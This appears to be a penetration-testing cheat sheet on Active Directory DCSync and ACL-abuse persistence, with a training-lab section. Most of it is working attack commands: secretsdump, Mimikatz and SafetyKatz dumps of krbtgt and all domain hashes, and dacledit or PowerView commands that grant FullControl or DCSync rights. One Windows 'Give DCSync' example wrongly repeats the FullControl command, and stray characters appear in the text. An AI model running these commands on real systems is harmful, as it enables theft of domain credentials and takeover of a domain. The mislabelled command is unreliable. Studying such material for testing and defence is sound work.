 # DCSync 

DCSync is a legitimate Active Directory feature that domain controllers only use for replicating changes, but illegitimate security principals can also use it.

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. 

This attack can lead to the compromise of major credential material such as the Kerberos krbtgt keys used legitimately for tickets creation, but also for tickets forging by attackers. 

The consequences of this attack are similar to an NTDS.dit dump and parsing but the practical aspect differ. A DCSync is not a simple copy & parse of the NTDS.dit file, it's a DsGetNCChanges operation transported in an RPC request to the DRSUAPI (Directory Replication Service API) to replicate data (including credentials) from a domain controller.

This attack requires domain admin privileges to succeed (more specifically, it needs the following extended privileges: DS-Replication-Get-Changes and DS-Replication-Get-Changes-All). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to grant controlled objects the right to DCSync.df

**Unix**
```
# using a plaintext password
secretsdump -outputfile 'dcsync' -dc-ip "$DC_IP" "$DOMAIN"/"$USER":"$PASSWORD"@"$DC_HOST"

# with Pass-the-Hash
secretsdump -outputfile 'dcsync' -hashes :"$NT_HASH" -dc-ip "$DC_IP" "$DOMAIN"/"$USER"@"$DC_HOST"

# with Pass-the-Ticket
KRB5CCNAME=ticket.ccache secretsdump -k -no-pass -outputfile 'dcsync' -dc-ip "$DC_IP" @"$DC_HOST"
```

**Windows - Mimikatz**
```
# Extract a specific user, in this case the krbtgt
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump everything (printed in a short and readable format)
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv

SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

### Persistence using ACLs - Rights Abuse

This abuse can be carried out when controlling an object that has WriteDacl over another object.

The attacker can write a new ACE to the target object’s DACL (Discretionary Access Control List). This can give the attacker full control of the target object.

**Unix**
```
# Give full control
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

**Windows**
```
# Give full control
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"
```

**Lab**
```
# Add FullControl rights
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add rights for DCSync
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose 

# Execute DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

OR

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit" 
```